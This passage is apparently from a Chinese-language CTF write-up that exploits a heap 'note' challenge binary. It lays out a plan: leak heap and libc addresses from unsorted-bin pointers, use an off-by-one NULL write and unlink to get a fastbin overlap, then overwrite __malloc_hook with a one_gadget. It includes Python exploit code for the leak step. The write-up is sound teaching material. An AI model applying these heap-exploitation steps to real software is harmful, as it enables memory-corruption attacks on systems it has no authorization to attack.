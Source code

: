 
这三个问题可进行如下利用：

1) 利用问题3，可以泄露堆地址和libc地址（从链表中取下堆块时，可以读到堆块在仍在链表里时的前项和后项，即fd和bk）

2) 利用问题1和2，可以造成off_by_one_NULL（size过大时malloc返回0，`*((_BYTE *)note_array[index] + size - 1) = 0;`等价于`*((_BYTE *) size - 1) = 0;`，即任意地址写零）

因此大致的解题思路如下：

1) 泄露堆地址和libc地址

2) 利用off_by_one_NULL和unlink构造fastbin的overlap

3) 利用fastbin attack和libc地址，将__malloc_hook的got修改为one_gadget


## 解题过程

关于堆的基本知识，推荐先在该网站进行了解：

>https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/introduction/

建议先阅读完成wiki中前三节的内容，再回到本博客继续阅读。

###1) 泄露堆地址和libc地址

bin中的chunk以链表的形式保存，将chunk从列表取下后，若未执行memset等清零操作，将能读取到链表的指针，即chunk的fd和bk。

不同的bin使用了不同的链表，本次使用unsortbin的双向链表，以方便一次性获取堆地址和libc地址

通过代码构造unsortbin如下：
![](https://raw.githubusercontent.com/zzz4ck/zzz4ck.github.io/master/screenshot/note_step1.PNG)

代码如下：
```
# 1. leak heap & libc address

new_note(0, 0xf0-8, 'A'*(0xf0-8-1)) #chunk_AAA
new_note(1, 0x70-8, 'B'*(0x70-8-1)) #chunk_BBB
new_note(2, 0x100-8, 'C'*(0x100-8-1))   #chunk_CCC
delete_note(1)  #因为只能创建3个chunk，需要先删chunk_BBB
new_note(1, 0x10, 'D'*(0x10-1)) #chunk_DDD
delete_note(1)  #利用fastbin中chunk的pre_size为1特性，避免chunk_CCC释放时合入top chunk
new_note(1, 0x70-8, 'B'*(0x70-8-1)) #chunk_BBB is back
delete_note(2)  #free chunk_AAA to unsortbin
delete_note(0)  #free chunk_CCC to unsortbin
new_note(2, 0x100-8, 'C'*7) #chunk_CCC的bk为chunk_AAA的地址，即堆地址
addr = show_note(2)
heap = u64(addr[8:16])
log.info('heap address: %s', hex(heap))

new_note(0, 0xf0-8, 'A'*7)  #chunk_AAA的bk为main_arena+0x58的地址，即main_arena中top chunk的地址
addr = show_note(0)
main_arena = u64(addr[8:16])-0x58
log.info('main_arena address: %s', hex(main_arena))
libc = main_arena - libc_elf.symbols['__malloc_hook'] -0x10 #libc中__malloc_hook位于main_arena+0x10地址处
log.info('libc address: %s', hex(libc))
delete_note(0)
delete_note(1)
delete_note(2)
```
